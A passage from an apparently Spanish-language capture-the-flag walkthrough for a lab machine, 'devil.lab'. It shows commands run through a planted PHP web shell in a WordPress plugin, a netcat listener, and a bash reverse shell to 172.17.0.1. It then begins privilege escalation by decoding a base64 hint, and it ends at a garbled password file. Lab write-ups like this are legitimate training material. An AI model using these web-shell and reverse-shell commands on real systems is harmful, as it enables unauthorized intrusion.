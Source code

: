 Ahora ejecutamos de manera exitosa comandos en la maquina victima:
```bash
# Comandos para explotación
http://devil.lab/wp-content/plugins/backdoor/uploads/cmd.php?cmd=whoami
```

### Intrusion
Modo escucha
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
http://devil.lab/wp-content/plugins/backdoor/uploads/cmd.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---

## Escalada de Privilegios

###### Usuario `[ www-data ]`:
Vemos que podemos atravesar el directorio del usuario **andy**
```bash
/home/andy
```

Listando sus archivos tenemos lo siguiente:
```bash
-rwxr-xr-x 1 root root   13 Sep 11  2024 .pista.txt
-rwxr-xr-x 1 andy andy  807 Mar 31  2024 .profile
drwxr-xr-x 2 andy andy 4096 Sep 11  2024 .secret
-rwxr-xr-x 1 andy andy  867 Sep 11  2024 .viminfo
drwxr-xr-x 2 root root 4096 Sep 11  2024 aquilatienes
```

Listamos el contenido del archivo: **.pist.txt**
```bash
cat .pista.txt 
cm90ODAwMAo=
```

En nuestra maquina descriframos:
```bash
echo -n "cm90ODAwMAo=" | base64 -d
rot8000
```

Aqui tenemos este directorio:
```bash
/home/andy/aquilatienes
```

Tenemos un archivo **password.txt** que revisamos su contenido:
```bash
ç±ªç±·ç±­ç²ç±ç±µç±ªç±µç±¸ç±¬ç±ªç°º
```
